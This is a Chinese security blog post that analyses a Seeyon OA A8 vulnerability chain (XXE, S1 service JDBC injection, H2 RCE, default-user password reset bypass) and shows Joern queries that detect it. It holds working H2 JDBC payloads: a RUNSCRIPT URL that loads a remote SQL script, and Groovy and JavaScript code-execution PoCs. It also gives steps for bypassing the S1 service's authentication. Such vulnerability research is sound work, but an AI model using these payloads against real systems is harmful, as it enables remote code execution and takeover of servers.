# Joern In RealWorld (3) - 致远OA A8 SSRF2RCE

**致远OA是国内最有名的OA系统之一**，这个OA封闭商业售卖再加上纷繁复杂的版本号加持下，致远OA拥有大量无法准确判断的版本。

这篇文章的漏洞源于下面这篇文章，文章中提到**该漏洞影响A8, A8+, A6等多个版本**，但很多版本我都找不到对应的源码，光A8就有一万个版本，下面我们尽可能的复现漏洞和探索Joern的可能性

-   [https://mp.weixin.qq.com/s/QWHHdYxUew\_yhlnAQUvmRA](https://mp.weixin.qq.com/s/QWHHdYxUew_yhlnAQUvmRA)

# 漏洞原理

先花一点儿篇幅简单的描述一下漏洞的基础原理，其实漏洞分为好几个部分

-   **致远oa 前台XXE漏洞**
-   **致远oa S1服务 后台jdbc注入**
-   **H2 jdbc注入导致RCE**
-   **致远oa S1服务 后台用户密码重置导致的鉴权绕过**

我们分开讨论这部分

## 致远oa前台xxe漏洞[](#%E8%87%B4%E8%BF%9Coa%E5%89%8D%E5%8F%B0xxe%E6%BC%8F%E6%B4%9E)

首先我必须得说，**这部分内容涉及到的代码我找了很多个版本的源码都没有找到**，尝试搜索了一下原漏洞以及一些简单的分析文章其实大部分都没有提到这部分代码的来源。

我觉得最神奇的点在于，这个漏洞如果**仅按照原文提及的部分，漏洞原理及其简单**，而且是一个比较**标准的xxe漏洞**

```python
private List<Element> getNodes(String xmlString, String xpath) {
    ArrayList tmpList = null;

    try {
        SAXReader saxReader = new SAXReader();
        Reader xml_sr = new StringReader(xmlString);
        saxReader.setEncoding("UTF-8");
        Document document = saxReader.read(xml_sr);
        if (document.getRootElement() == null) {
            throw new KgException(new KgCommonsError("XmlParser Object hasn't RootElement.", KgCommonsError.SYSTEM_ERROR.getCode()));
        } else {
            List<?> contexts = document.selectNodes(xpath);
            tmpList = new ArrayList();

            for(int i = 0; i < contexts.size(); ++i) {
                if (contexts.get(i) instanceof Element) {
                    tmpList.add((Element)contexts.get(i));
                }
            }

            return tmpList;
        }
    }
```

**可控参数** **xmlValue，直接解base64然后就进xxe**造成漏洞。

按理说这么简单的漏洞，应该早就被爆出来滥用了，但我搜索了一下相应的内容，上一次致远oa爆出来xxe漏洞原理比这个复杂多了，而且还是组件漏洞。

由于实在找不到源码，所以我猜测这个漏洞可能有两个可能性

-   **漏洞来自于某个部署时使用到的额外服务或者插件**
-   **这个xxe漏洞是个第三方组件问题**，需要其他条件入口，原文不想提到这个入口所以没有写

不管咋说我的确是没有办法获得答案了，不过这不是这篇文章的重心，先往后看。

## 致远oa S1服务 后台jdbc注入[](#%E8%87%B4%E8%BF%9Coa-S1%E6%9C%8D%E5%8A%A1-%E5%90%8E%E5%8F%B0jdbc%E6%B3%A8%E5%85%A5)

在原文中，这部分来自于agent.jar，简单来说就是一个开放到内网的服务，我查了一下应该是指这套**S1服务**。

在官网还可以查到这套系统，看上去应该是用于管理致远后台的平台，算是运维平台。这侧面也证明了**这套系统是一套独立的系统。**

在`com.seeyon.agent.sfu.server.apps.configuration.controller.ConfigurationController`可以找到对应的`testDBConnect`方法

[](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/202311211747347.png)

可以关注到相比原文当中的截图，现在加入了**对h2数据库连接的限制**

```python
params.put("dbUrl", dbUrl);
if (dbUrl.startsWith("jdbc:h2"))
  return JsonResult.success(StatusCodeEnum.FAILEDCODE.getKey(), ", null);
```

继续跟进到`testDBConnect`中

[](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/202311211747209.png)

从这里可以找到可以**根据dburl前缀自由连接远程jdbc**的方法，并允许**自定义链接驱动类**

## H2 jdbc注入导致RCE[](#H2-jdbc%E6%B3%A8%E5%85%A5%E5%AF%BC%E8%87%B4RCE)

这部分内容其实不算是这篇文章的重点致远oa的问题，一般来说到**jdbc注入**之后就是**利用方式**的问题了，但这里还是顺带提一下。

**关于jdbc的注入后利用方式**其实之前已经有过不少次相关的文章以及议题，下面这篇就是一篇总结的比较全的文章

-   [https://paper.seebug.org/1832/](https://paper.seebug.org/1832/)
-   [https://www.anquanke.com/post/id/203086](https://www.anquanke.com/post/id/203086)

其实jdbc可控**后续导致的二次利用方案相当复杂**，由于这不是这篇文章的内容，所以我们直接跳到对应的位置来看看。

想要利用jdbc注入来调用H2进行进一步利用，其中有两个比较大的问题。

-   **需要相应的配置参数才能命令执行**
-   **由于不支持多行语句，需要找到能在单行里执行命令的方法**

**H2的攻击利用的是Spring Boot H2 console的一个特性**，通过控制h2数据库的连接url，我们可以迫使spring boot去**加载远程的sql脚本并执行命令**，类似下面这样的请求

```python
jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:8000/poc.sql'
```

而这样的请求需要**如下的参数**

```python
spring.h2.console.enable=true
spring.h2.console.setting.web-allow-others=true
```

我们简单的看下源码

在`org.h2.engine.Engine#openSession`中，发起连接是可以**通过INIT关键字来影响初始化数据库连接的配置**

[](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/202311211747556.png)

[](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/202311211747988.png)

**当我们使用RUNSCRIPT关键字发起远程连接时**，代码将会执行到`org.h2.command.dml.RunScriptCommand#execute`

[](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/202311211747682.png)

这也就意味着我们可以**通过RUNSCRIPT来执行恶意的SQL语句**，但使用RUNSCRIPT意味着，**你的客户端必须出网才有可能利用。**

而我们之所以要使用RUNSCRIPT，本质是**因为常见的恶意SQL执行命令需要两句**，**而**`session.prepareCommand`**并不支持执行多行语句**

```python
CREATE ALIAS RUNCMD AS $$<JAVA METHOD>$$;
CALL RUNCMD(command)
```

在Spring Boot H2 console的源码中，我们可以继续寻找问题的解决办法，在SQL语句当中的JAVA方法将会执行到`org.h2.util.SourceCompiler`,一共有三种编译器，**分别是Java/Javascript/Groovy**

[](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/202311211747684.png)

**如果满足source开头是**`//groovy`**或者是**`@groovy`**就会使用对应Groovy引擎。**

[](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/202311211748878.png)

**利用**`@groovy.transform.ASTTEST`**就可以使用assert来执行命令**

```python
public static void main (String[] args) throws ClassNotFoundException, SQLException {
    String groovy = "@groovy.transform.ASTTest(value={" + " assert java.lang.Runtime.getRuntime().exec(\"open -a Calculator\")" + "})" + "def x";
    String url = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE ALIAS T5 AS '"+ groovy +"'";
    Connection conn = DriverManager.getConnection(url);
    conn.close();
}
```

**除了Groovy以外还有JavaScript的利用方案**

[](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/202311211749239.png)

```python
public static void main (String[] args) throws ClassNotFoundException, SQLException {
    String javascript = "//javascript\njava.lang.Runtime.getRuntime().exec(\"open -a Calculator.app\")";
    String url = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER hhhh BEFORE SELECT ON INFORMATION_SCHEMA.CATALOGS AS '"+ javascript +"'";
    Connection conn = DriverManager.getConnection(url);
    conn.close();
}
```

## 致远oa S1服务 后台用户密码重置导致的鉴权绕过[](#%E8%87%B4%E8%BF%9Coa-S1%E6%9C%8D%E5%8A%A1-%E5%90%8E%E5%8F%B0%E7%94%A8%E6%88%B7%E5%AF%86%E7%A0%81%E9%87%8D%E7%BD%AE%E5%AF%BC%E8%87%B4%E7%9A%84%E9%89%B4%E6%9D%83%E7%BB%95%E8%BF%87)

在前面找到对应的利用方案之后，**当我们尝试去做利用的时候会发现其实后台有额外的权限验证**。直接访问testDBConnenction，会报**非法访问的错误。**

[](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/202311211749235.png)

这是**因为没有传入对应的token**，在`com.seeyon.agent.common.utils.TokenUtils`中可以找到对应的检查

[](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/202311211749964.png)

这里的tokenMap可以在`com.seeyon.agent.common.getway.GetWayController`找到**对应的写入位置**

[](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/202311211749377.png)

**通过解密获得username、pwd、dogcode、versions**，**经过各种验证之后token会被存入全局变量**

[](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/202311211749644.png)

这个token会被存入最终的tokenMap当中，而到这里我们问题变成了**如何模拟这个过程**，在这个过程当中我们需要的信息有点儿多

-   **username，可以用默认的用户名seeyon**
-   **pwd**
-   **version**
-   **aes的秘钥和iv**

跟踪 AESUtil.Decrypt到定义的位置，可以发现**秘钥和iv都是默认的**，可以直接使用

[](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/202311211749701.png)

在`com.seeyon.agent.common.controller.ConfigController`中可以**找到一个方法modifyDefaultUserInfo**

[](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/202311211750401.png)

这个方法可以在**没有任何限制的情况下修改默认用户seeyon的密码**

最后剩下的一个信息则是version，这个后台的版本比较复杂，我们可以**通过一个接口来获取**

**在**`com.seeyon.agent.common.controller.VersionController`**的getVersion方法**里可以获取对应的版本号

[](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/202311211750481.png)

到这里我们获取了模拟token的所有信息，就可以在**后台进行任意操作**了

# For Joern

当问题回到源代码扫描上，我们也可以用**类似的漏洞拆解来实现扫描**

## 致远oa前台xxe漏洞[](#%E8%87%B4%E8%BF%9Coa%E5%89%8D%E5%8F%B0xxe%E6%BC%8F%E6%B4%9E-1)

由于这个源码找不到，所以这里**用一个类似场景写出来的语句**来进行**模拟挖掘和扫描**。

```python
def source = cpg.method("getParameter").callIn
def sink = cpg.call.filter(_.methodFullName.contains("java.io.StringReader.<init>"))

sink.reachableByFlows(source).p
```

我们可以通过**连通初始化位置以及可控参数来判断是否存在路径**，正常来说如果两个节点**存在连通路径**，那么就存在**调用关系**，但数据流的过程间分析需要更合理的判定方式，就比如这个漏洞。

[](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/202311211750347.png)

`SAXReader`的**XXE漏洞修复方案并不是在参数的过滤上**，而是在于`SAXReader`对**解析xml的配置**

这就要求**除了获得source到sink的连通性以及调用关系以外**，**还要对**`SAXReader`**实例化后的属性变化有所关注**，在Joern上虽然可以强行做这样的判定，但却没有特别适配的方案，甚至需要通过正则匹配等方式来解决。

## 致远oa S1服务 后台jdbc注入[](#%E8%87%B4%E8%BF%9Coa-S1%E6%9C%8D%E5%8A%A1-%E5%90%8E%E5%8F%B0jdbc%E6%B3%A8%E5%85%A5-1)

照理先引入S1的包，这个东西其实代码不是很大，但是不知道为什么解出来的包非常之大，可能有一些问题。

```python
joern> importCode("S1.jar", "seeyons1")
val res36: io.shiftleft.codepropertygraph.Cpg = Cpg (Graph [959587 nodes])
```

先找到**设置了注解的testDBConnect方法**

```python
cpg.method("testDBConnect").where(_.annotation.name(".*Mapping")).l
```

[](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/202311211750143.png)

然后再找到**设置jdbc连接的位置**，并**设置参数为3个string**

```python
cpg.method("getConnection").callIn.filter(_.methodFullName.contains("java.lang.String,java.lang.String,java.lang.String")).l
```

[](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/202311211750355.png)

```python
def sink = cpg.method("getConnection").callIn.filter(_.methodFullName.contains("java.lang.String,java.lang.String,java.lang.String"))
def source = cpg.method("testDBConnect").where(_.annotation.name(".*Mapping")).parameter

sink.reachableByFlows(source).p
```

[](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/202311211750337.png)

存在连通性，**表示包含注解的方法参数可以连通到sink点，存在问题。**

## H2 jdbc注入导致RCE[](#H2-jdbc%E6%B3%A8%E5%85%A5%E5%AF%BC%E8%87%B4RCE-1)

相比其他几个问题，这个jdbc的利用其实**就不算源代码分析层面的部分**了。

无论是**通过H2的链接来配置参数还是通过特殊语句二次利用**，其实本质上都是**H2数据库的feature**，这里我们就跳过源代码分析的部分继续看后面的部分

## 致远oa S1服务 后台用户密码重置导致的鉴权绕过[](#%E8%87%B4%E8%BF%9Coa-S1%E6%9C%8D%E5%8A%A1-%E5%90%8E%E5%8F%B0%E7%94%A8%E6%88%B7%E5%AF%86%E7%A0%81%E9%87%8D%E7%BD%AE%E5%AF%BC%E8%87%B4%E7%9A%84%E9%89%B4%E6%9D%83%E7%BB%95%E8%BF%87-1)

让我们把视角在转回S1上，其实问题很简单，**由于后台主要检查token是否有效**

[](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/202311211750184.png)

所以我们可以尝试**去寻找全局变量tokenMap初始化过的地方**

```python
cpg.call("<operator>.fieldAccess").filter(_.code.equals("com.seeyon.agent.common.utils.TokenUtils.tokenMap")).l
```

[](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/202311211750489.png)

